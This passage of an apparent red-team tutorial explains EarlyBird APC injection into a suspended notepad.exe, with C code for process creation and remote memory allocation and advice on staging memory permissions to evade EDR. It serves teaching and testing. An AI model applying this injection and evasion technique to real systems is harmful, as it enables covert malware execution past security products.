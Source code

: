 The first step in implementing the EarlyBird injection technique is to create a target process in a suspended state. This gives us a window to modify the process memory and queue an Asynchronous Procedure Call (APC) before any of its threads begin executing user code.

In our proof-of-concept, we’ll use `notepad.exe` as the target process. This is a common choice in demonstrations because it's benign, familiar, and unlikely to trigger alarms during local testing. Of course, in a real red team scenario, the target could be any executable that blends into the environment or helps avoid detection.

By creating the process in a suspended state, we gain control before its primary thread starts running. This allows us to allocate memory, write our payload (shellcode), and queue an APC safely. We'll also set up some useful process and thread handles that we’ll use in the upcoming steps.

{% highlight c %}
    INFO("Creating suspended process: notepad.exe");

    if (!CreateProcessA(
        "C:\\Windows\\System32\\notepad.exe",
        NULL, NULL, NULL, FALSE,
        CREATE_SUSPENDED,
        NULL, NULL,
        &si, &pi))
    {
        WARN("Failed to create process. Error: %lu", GetLastError());
        return 1;
    }

    OKAY("Suspended process created (PID: %lu)", pi.dwProcessId);

    HANDLE victimProcess = pi.hProcess;
    HANDLE threadHandle = pi.hThread;
{% endhighlight %}

### VirtualAllocEx Block (Position 2)

Now that we’ve created a suspended process, the next step is to allocate memory within that process’s address space. This memory will serve as the destination for our payload — specifically, the shellcode that we’ll inject in the following step.

We use the `VirtualAllocEx` API to allocate memory inside the remote (suspended) process. At this stage, the memory is requested with `PAGE_READWRITE` permissions. This is intentional: writing to `RW` memory is far less suspicious to endpoint detection and response (EDR) systems than writing directly to memory marked as executable.

Once the shellcode is safely written, we’ll switch the memory protection to `PAGE_EXECUTE_READ` using `VirtualProtectEx`. This flips the region to be executable but read-only — just before we trigger execution via APC.

This approach helps evade simple behavioral signatures. Many EDRs flag processes that allocate memory with `PAGE_EXECUTE_READWRITE` or write directly to `RX` memory as potentially malicious. By separating the write and execute phases, we blend in with more legitimate behavior patterns seen in everyday applications.

{% highlight c %}
    INFO("Allocating memory in remote process");

    LPVOID shellAddress = VirtualAllocEx(
        victimProcess,
        NULL,
        sizeof(AbyssBird),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_READWRITE // Initially RW
    );

    if (!shellAddress) {
        WARN("Failed to allocate memory. Error: %lu", GetLastError());
        return 1;
    }

    OKAY("Memory allocated at remote address: %p", shellAddress);